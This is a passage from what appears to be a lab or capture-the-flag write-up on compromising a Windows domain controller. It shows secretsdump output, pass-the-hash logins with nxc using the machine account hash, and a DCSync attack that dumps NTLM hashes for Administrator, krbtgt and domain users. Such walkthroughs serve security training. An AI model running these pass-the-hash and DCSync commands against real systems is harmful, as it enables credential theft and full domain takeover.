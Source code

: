 ```
dpapi_userkey:0x026920834cd39c2e8ba9401c44a8869fe6be0555
[*] NL$KM
 0000   B6 96 C7 7E 17 8A 0C DD  8C 39 C2 0A A2 91 24 44   ...~.....9....$D
 0010   A2 E4 4D C2 09 59 46 C0  7F 95 EA 11 CB 7F CB 72   ..M..YF........r
 0020   EC 2E 5A 06 01 1B 26 FE  6D A7 88 0F A5 E7 1F A5   ..Z...&.m.......
 0030   96 CD E5 3F A0 06 5E C1  A5 01 A1 CE 8C 24 76 95   ...?..^......$v.
NL$KM:b696c77e178a0cdd8c39c20aa2912444a2e44dc2095946c07f95ea11cb7fcb72ec2e5a06011b26fe6da7880fa5e71fa596cde53fa0065ec1a501a1ce8c247695
[*] Cleaning up...
```

I tested the local `Administrator`'s hash. It was disabled, which is normal for domain controllers.
```
❯ nxc smb 10.129.234.71 -u administrator -H 8d992faed38128ae85e95fa35868bb43
SMB         10.129.234.71   445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         10.129.234.71   445    BABYDC           [-] baby.vl\administrator:8d992faed38128ae85e95fa35868bb43 STATUS_LOGON_FAILURE
```

However, the domain controller machine account's hash was active. 
```
❯ nxc smb 10.129.234.71 -u BABYDC$ -H 3d538eabff6633b62dbaa5fb5ade3b4d
SMB         10.129.234.71   445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         10.129.234.71   445    BABYDC           [+] baby.vl\BABYDC$:3d538eabff6633b62dbaa5fb5ade3b4d
```

### DCSync Attack

I used it to perform a DCSync attack and dumped the NTDS database.
```
❯ secretsdump.py baby.vl/babydc\$@babydc.baby.vl -hashes :3d538eabff6633b62dbaa5fb5ade3b4d                                                                                                                                                                  
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ee4457ae59f1e3fbd764e33d9cef123d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6da4842e8c24b99ad21a92d620893884:::
baby.vl\Jacqueline.Barnett:1104:aad3b435b51404eeaad3b435b51404ee:20b8853f7aa61297bfbc5ed2ab34aed8:::
baby.vl\Ashley.Webb:1105:aad3b435b51404eeaad3b435b51404ee:02e8841e1a2c6c0fa1f0becac4161f89:::
baby.vl\Hugh.George:1106:aad3b435b51404eeaad3b435b51404ee:f0082574cc663783afdbc8f35b6da3a1:::
baby.vl\Leonard.Dyer:1107:aad3b435b51404eeaad3b435b51404ee:b3b2f9c6640566d13bf25ac448f560d2:::
baby.vl\Ian.Walker:1108:aad3b435b51404eeaad3b435b51404ee:0e440fd30bebc2c524eaaed6b17bcd5c:::
baby.vl\Connor.Wilkinson:1110:aad3b435b51404eeaad3b435b51404ee:e125345993f6258861fb184f1a8522c9:::
baby.vl\Joseph.Hughes:1112:aad3b435b51404eeaad3b435b51404ee:31f12d52063773769e2ea5723e78f17f:::
baby.vl\Kerry.Wilson:1113:aad3b435b51404eeaad3b435b51404ee:181154d0dbea8cc061731803e601d1e4:::
baby.vl\Teresa.Bell:1114:aad3b435b51404eeaad3b435b51404ee:7735283d187b758f45c0565e22dc20d8:::
baby.vl\Caroline.Robinson:1115:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
BABYDC$:1000:aad3b435b51404eeaad3b435b51404ee:3d538eabff6633b62dbaa5fb5ade3b4d:::
<SNIP>
```
